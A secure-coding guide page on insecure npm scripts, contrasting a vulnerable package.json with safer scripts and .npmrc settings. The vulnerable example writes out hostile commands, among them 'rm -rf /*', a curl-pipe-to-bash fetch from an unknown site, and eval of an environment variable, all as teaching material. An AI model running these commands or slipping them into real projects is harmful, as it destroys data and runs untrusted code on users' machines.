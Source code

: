 ```yaml
---
title: Insecure NPM Scripts
description: Securing npm scripts and preventing script injection attacks
---
```


## Common Misconfigurations

1. **Running untrusted packages' scripts automatically**
2. **Using unsafe script commands**
3. **Not validating environment variables in scripts**
4. **Missing script injection protection**
5. **Excessive permissions in scripts**

## Vulnerable Example

```json
// package.json with insecure scripts
{
  "name": "insecure-scripts-app",
  "scripts": {
    // Command injection vulnerability
    "build": "echo Building $npm_package_version && webpack",
    
    // Unsafe rm command
    "clean": "rm -rf /*",
    
    // Downloading and executing remote scripts
    "setup": "curl -s https://unknown-site.com/script.sh | bash",
    
    // Using eval with user input
    "process": "node -e \"eval(process.env.USER_INPUT)\"",
    
    // No validation on file operations
    "deploy": "cp -r ./* $DEPLOY_PATH",
    
    // Running with elevated privileges
    "install": "sudo npm link"
  }
}

// No .npmrc security settings
// No ignore-scripts configuration
```

## Secure Solution

```json
// package.json with secure scripts
{
  "name": "secure-scripts-app",
  "scripts": {
    // Safe, validated commands
    "build": "node scripts/build.js",
    "clean": "node scripts/clean.js",
    "test": "jest --coverage",
    "lint": "eslint src/",
    
    // Use npm run-script for chaining
    "prebuild": "npm run clean",
    "postbuild": "npm run test",
    
    // Validated deployment
    "deploy": "node scripts/deploy.js --validate"
  }
}
```

```settings
# .npmrc with security configurations
ignore-scripts=true
audit-level=moderate
fund=false
```

```javascript
// scripts/build.js - Secure build script
const { execSync } = require('child_process');
const path = require('path');

// Validate environment
const version = process.env.npm_package_version;
if (!/^\d+\.\d+\.\d+$/.test(version)) {
  throw new Error('Invalid version format');
}

// Use safe paths
const buildPath = path.join(__dirname, '..', 'dist');

// Execute with limited permissions
try {
  execSync('webpack --mode production', {
    stdio: 'inherit',
    cwd: process.cwd(),
    env: {
      ...process.env,
      NODE_ENV: 'production'
    }
  });
} catch (error) {
  console.error('Build failed:', error.message);
  process.exit(1);
}
```

```javascript
// scripts/clean.js - Safe cleanup script
const fs = require('fs').promises;
const path = require('path');

const ALLOWED_PATHS = ['dist', 'build', '.cache'];

async function clean() {
  for (const dir of ALLOWED_PATHS) {
    const fullPath = path.join(process.cwd(), dir);
    
    // Validate path is within project
    if (!fullPath.startsWith(process.cwd())) {
      console.error(`Invalid path: ${dir}`);
      continue;
    }
    
    try {
      await fs.rm(fullPath, { recursive: true, force: true });
      console.log(`Cleaned: ${dir}`);
    } catch (error) {
      // Directory doesn't exist, skip
    }
  }
}

clean().catch(console.error);
```

## Best Practices

* Set ignore-scripts=true in .npmrc.
* Validate all environment variables.
* Use dedicated script files instead of inline commands.
* Avoid shell command execution when possible.
* Implement proper input validation.
* Never use eval() or Function() with user input.
